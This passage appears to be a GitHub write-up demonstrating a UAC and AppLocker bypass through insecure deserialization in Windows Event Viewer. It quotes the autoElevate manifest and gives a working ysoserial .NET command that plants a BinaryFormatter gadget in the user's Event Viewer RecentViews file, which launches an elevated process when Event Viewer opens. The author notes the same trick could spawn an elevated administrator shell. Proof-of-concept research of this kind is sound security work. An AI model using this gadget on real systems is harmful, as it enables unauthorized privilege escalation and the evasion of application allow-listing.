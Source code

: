 ```sh
    version="5.1.0.0"
    processorArchitecture="amd64"
    name="Microsoft.Windows.Eventlog.EventVwr"
    type="win32"
/>
<description>Event Viewer Snapin Launcher</description>

<trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
    <security>
        <requestedPrivileges>
            <requestedExecutionLevel
                level="highestAvailable"
                uiAccess="false"
            />
        </requestedPrivileges>
    </security>
</trustInfo>
<asmv3:application>
   <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
        <autoElevate>true</autoElevate>
   </asmv3:windowsSettings>
</asmv3:application>
</assembly>
```
We can see the xml element `<autoElevate>true</autoElevate>` which allows eventviewer to bypass uac.

We thus could create a `Deserialization gadget` to execute any files, bypassing UAC and Applocker.

We can use `ysoserial .NET` to create our `Deserialization gadget`. 

I have set my UAC permissions to the max.

<img width="561" alt="image" src="https://user-images.githubusercontent.com/12537739/174980287-53062380-8633-4865-9004-f4d4c1d7a5aa.png">

If i were to open `taskmgr`, we can see UAC intefering with us.
<img width="286" alt="image" src="https://user-images.githubusercontent.com/12537739/174980615-162f5dea-ef27-476f-a1d7-ec73a3c9cefe.png">

<img width="509" alt="image" src="https://user-images.githubusercontent.com/12537739/174980796-efeec65d-d84c-4750-b7de-339ce2503cb5.png">

Now let's use `ysoserial .NET` to create our `Deserialization gadget`. 

```sh
ysoserial.exe -o raw -g DataSet -f BinaryFormatter -c taskmgr > 
"C:\Users\wirel\AppData\Local\Microsoft\Event Viewer\RecentViews"
```
Now when we open up EventViewer, it will be succum to insecure deserialization and open our task manager, bypassing UAC. This technique can also be used to bypass Applocker.

<img width="1253" alt="image" src="https://user-images.githubusercontent.com/12537739/174981505-96f67864-caf1-4d36-887a-5a926ac60327.png">

If this was an Admin account, attackers can easily spawn an elevated Administrator shell.
